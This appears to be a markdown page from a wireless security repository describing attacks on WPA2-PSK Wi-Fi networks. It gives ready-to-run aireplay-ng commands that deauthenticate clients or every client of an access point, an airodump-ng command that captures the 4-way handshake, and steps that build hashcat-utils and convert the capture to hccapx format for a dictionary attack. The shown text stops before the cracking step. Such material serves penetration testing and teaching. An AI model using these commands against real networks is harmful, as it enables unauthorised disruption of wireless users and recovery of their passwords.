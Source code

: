 <img src="./images/keys2.png" width="500"/>

<img src="./images/4wayhandshake.png" width="500"/>

<img src="./images/keys.png" width="500"/>

### WPA2-PSK
One of the most known technic to attack WPA2-PSK (Pre Shared Key) is to deauthenticate clients and capture authentication handshake to further brute force it and try to recover clear text password.

<img src="./images/wpa2_attack.png" width="500"/>

### WPA2-Deauthentication attack (against client) 

```
sudo aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan1
sudo aireplay-ng --deauth 10 -a 00:14:6C:7E:40:80 -c 00:0F:B5:AE:CE:9D wlan1
```

### WPA2-Deauthentication attack (against AP)
If the ```–c``` (CLIENT_MAC) parameter is not specified when you run your deauth attack with aireplay-ng, all clients connected to the AP will be disconnected via deauthentication broadcast packet, but it is more effective to target a client individually.  

```
sudo aireplay-ng --deauth 10 -a <BSSID> wlan1
sudo aireplay-ng --deauth 10 -a 00:14:6C:7E:40:80 wlan1
```

#####Capture WPA2 Handshake
In order to attack and crack WPA2 handshake you do not need to get full 4 way handshake. (Filter in Wireshark: *eapol*)  
--> Airodump-ng will inform you when you capture a valid handshake.  

You will need the minimal following packets/message from 4 way handshake:
- ANonce (Message 1 and Message 3)
- SNonce (Message 2)

1. Packet 1 and 2
2. Packet 2 and 3

```
sudo airodump-ng wlan1 -c 11 --bssid 00:1C:10:00:00:00 -w ./capturePSK
```

### Cracking WPA2 handshake
#### Dictionnary attack

Converting **.CAP** capture with handshake to **hccapx** hashcat format
```
sudo apt install git gcc
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src/
gcc cap2hccapx.c -o cap2hccapx.bin
./cap2hccapx.bin wpa_handshake.cap handshake.hccapx
```
